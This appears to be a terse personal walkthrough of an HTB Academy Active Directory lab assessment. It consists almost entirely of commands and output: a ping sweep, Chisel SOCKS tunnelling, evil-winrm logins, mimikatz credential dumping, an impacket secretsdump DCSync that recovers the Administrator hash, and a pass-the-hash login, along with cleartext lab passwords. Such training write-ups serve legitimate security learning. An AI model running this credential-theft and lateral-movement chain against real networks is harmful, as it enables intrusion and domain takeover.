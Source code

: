 # Skills Assessment Part I
```
$password = ConvertTo-SecureString 'lucky7' -AsPlainText -Force ; $cred = new-object System.Management.Automation.PSCredential ('INLANEFREIGHT.LOCAL\svc_sql', $password ); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s { type C:\PATH\TO\ADMIN\FLAG.txt}

PS> 1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl

```

Reply from 172.16.6.3: bytes=32 time<1ms TTL=128     Administrator Desktop on DC01
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128    svc_sql's desktop MS01
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128

### Chisel from HTB academy - SOCKS5 Tunneling with Chisel
```
socks4        127.0.0.1 9050
OR
socks5 127.0.0.1 1080
```

```
C:\chisel.exe server -v -p 1234 --socks5

./chisel client -v 10.129.49.186:1234 socks

proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7

.\mimikatz.exe SEKURLSA::LogonPasswords exit

```

### or use secretdump to get another user's hash(Lateral movement)

```
proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py INLANEFREIGHT/svc_sql:"lucky7"@172.16.6.50
```

        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : tpetty
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Sup3rS3cur3D0m@inU2eR


### Get the final administrator's hash by DCsync attack
```
proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py INLANEFREIGHT/tpetty:"Sup3rS3cur3D0m@inU2eR"@172.16.6.3 -just-dc-user INLANEFREIGHT/administrator
```

### Login
```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```
